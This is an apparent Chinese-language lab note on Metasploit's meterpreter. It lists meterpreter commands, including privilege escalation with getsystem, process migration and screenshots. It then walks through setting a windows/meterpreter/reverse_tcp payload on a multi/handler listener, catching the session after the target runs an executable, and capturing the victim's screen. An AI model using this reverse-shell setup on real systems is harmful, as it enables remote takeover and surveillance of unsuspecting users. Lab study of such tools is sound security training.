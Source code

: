 ```yaml
---
title: metasploit之meterpreter命令
date: 2021-12-21 12:22:46
tags: 
    - msf
    - meterpreter 
---
```


## metasploit之meterpreter命令

### 目的: 了解meterpreter命令

### 原理:  
`ps`         查询当前目标机所有进程
`getpid`       获取当前会话进程
`getuid`       当前用户所用的权限，所在用户组
`sysinfo`      取系统信息
`getsystem`    提升至system最高权限
`shell`      进入cmdshell命令模式
`pwd`       查看当前所在位置
`cat`        查看文本文件
`ipconfig`     查看网络配置信息
`migrate pid`   迁移pid
`screenshot`    截取当前用户屏幕保存到本地

### 过程：

打开终端，运行msf，`use exploit/multi/handler`选择exploit，`set payload windows/meterpreter/reverse_tcp`设置payload，`set LHOST 192.168.1.2`设置监听主机，`set LPORT 11101`设置端口

![](http://121.5.125.62:88/image/metasploit%E4%B9%8Bmeterpreter%E5%91%BD%E4%BB%A4/1.PNG)

输入`exploit -j`运行脚本，且在后台监听


靶机双击桌面运行xx.exe，返回kali，已经取得会话

![](http://121.5.125.62:88/image/metasploit%E4%B9%8Bmeterpreter%E5%91%BD%E4%BB%A4/2.PNG)

![](http://121.5.125.62:88/image/metasploit%E4%B9%8Bmeterpreter%E5%91%BD%E4%BB%A4/3.PNG)

敲击回车，返回msf，执行`sessions`，查看会话，再执行`sessions 1`,进入会话

![](http://121.5.125.62:88/image/metasploit%E4%B9%8Bmeterpreter%E5%91%BD%E4%BB%A4/4.PNG)

执行`ps`查看进程

![](http://121.5.125.62:88/image/metasploit%E4%B9%8Bmeterpreter%E5%91%BD%E4%BB%A4/5.PNG)

`getuid` 查看权限

`pwd` 查看当前路径

`screentshot`截图

![](http://121.5.125.62:88/image/metasploit%E4%B9%8Bmeterpreter%E5%91%BD%E4%BB%A4/6.PNG)

`background`会话转入后台

![](http://121.5.125.62:88/image/metasploit%E4%B9%8Bmeterpreter%E5%91%BD%E4%BB%A4/7.PNG)

新建终端，进入/root目录下，查看截图

![](http://121.5.125.62:88/image/metasploit%E4%B9%8Bmeterpreter%E5%91%BD%E4%BB%A4/8.PNG)

实验结束